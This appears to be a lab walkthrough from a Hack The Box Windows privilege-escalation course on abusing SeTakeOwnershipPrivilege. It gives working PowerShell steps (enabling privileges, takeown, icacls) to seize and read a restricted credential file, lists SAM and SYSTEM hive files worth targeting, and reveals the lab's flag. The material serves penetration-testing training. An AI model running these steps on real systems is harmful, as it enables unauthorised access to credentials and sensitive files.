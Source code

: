 ```yaml
---
description: Grants a user the ability to take ownership of any "securable object,"
---
```


# SeTakeOwnershipPrivilege

With this privilege, a user could take ownership of any file or object and make changes that could involve access to sensitive data, `Remote Code Execution` (`RCE`) or `Denial-of-Service` (DOS).

### Leveraging the Privilege

**Reviewing Current User Privileges**

Let's review our current user's privileges.

```powershell-session
PS C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                                              State
============================= ======================================================= ========
SeTakeOwnershipPrivilege      Take ownership of files or other objects                Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                                Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set                          Disabled
```

**Enabling SeTakeOwnershipPrivilege**

{% embed url="https://github.com/fashionproof/EnableAllTokenPrivs" %}
Use this script to enable the state
{% endembed %}

```powershell-session
PS C:\htb> Import-Module .\Enable-Privilege.ps1
PS C:\htb> .\EnableAllTokenPrivs.ps1
PS C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                              State
============================= ======================================== =======
SeTakeOwnershipPrivilege      Take ownership of files or other objects Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                 Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set           Enabled
```

**Choosing a Target File**

Try to find high value files that could be credentials and config files that is restricted&#x20;

Check out the target file to gather a bit more information about it.

```powershell-session
PS C:\htb> Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | Select Fullname,LastWriteTime,Attributes,@{Name="Owner";Expression={ (Get-Acl $_.FullName).Owner }}
 
FullName                                 LastWriteTime         Attributes Owner
--------                                 -------------         ---------- -----
C:\Department Shares\Private\IT\cred.txt 6/18/2021 12:23:28 PM    Archive
```

**Checking File Ownership**

```powershell-session
PS C:\htb> cmd /c dir /q 'C:\Department Shares\Private\IT'

 Volume in drive C has no label.
 Volume Serial Number is 0C92-675B
 
 Directory of C:\Department Shares\Private\IT
 
06/18/2021  12:22 PM    <DIR>          WINLPE-SRV01\sccm_svc  .
06/18/2021  12:22 PM    <DIR>          WINLPE-SRV01\sccm_svc  ..
06/18/2021  12:23 PM                36 ...                    cred.txt
               1 File(s)             36 bytes
               2 Dir(s)  17,079,754,752 bytes free
```

owner is not shown, we likely do not have enough permissions over the object to view those details.

**Taking Ownership of the File**

Now we can use the [takeown](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/takeown) Windows binary to change ownership of the file.

```powershell-session
PS C:\htb> takeown /f 'C:\Department Shares\Private\IT\cred.txt'
 
SUCCESS: The file (or folder): "C:\Department Shares\Private\IT\cred.txt" now owned by user "WINLPE-SRV01\htb-student".
```

**Confirming Ownership Changed**

```powershell-session
PS C:\htb> Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | select name,directory, @{Name="Owner";Expression={(Get-ACL $_.Fullname).Owner}}

Name     Directory                       Owner
----     ---------                       -----
cred.txt C:\Department Shares\Private\IT WINLPE-SRV01\htb-student
```

We are now the owner

**Modifying the File ACL**

Reading the file now won't work, we need to modify the file ACL using icacls

```powershell-session
PS C:\htb> cat 'C:\Department Shares\Private\IT\cred.txt'

cat : Access to the path 'C:\Department Shares\Private\IT\cred.txt' is denied.
At line:1 char:1
+ cat 'C:\Department Shares\Private\IT\cred.txt'
```

Granting full privilege over the file.

```powershell-session
PS C:\htb> icacls 'C:\Department Shares\Private\IT\cred.txt' /grant htb-student:F

processed file: C:\Department Shares\Private\IT\cred.txt
Successfully processed 1 files; Failed processing 0 files
```

### When to Use?

**Files of Interest**

Some local files of interest may include:

```shell-session
c:\inetpub\wwwwroot\web.config
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\repair\software, %WINDIR%\repair\security
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
```

## Assessment

Leverage SeTakeOwnershipPrivilege rights over the file located at "C:\TakeOwn\flag.txt" and submit the contents.

<figure><img src="../../../.gitbook/assets/image (47).png" alt=""><figcaption><p>enabling the privileges</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (60).png" alt=""><figcaption><p>Change the owner since the owner is unknown (the file is still unreadable)</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (12).png" alt=""><figcaption><p>Granting full privilege to the file and reading the flag 1m_th3_f1l3_0wn3r_n0W!</p></figcaption></figure>
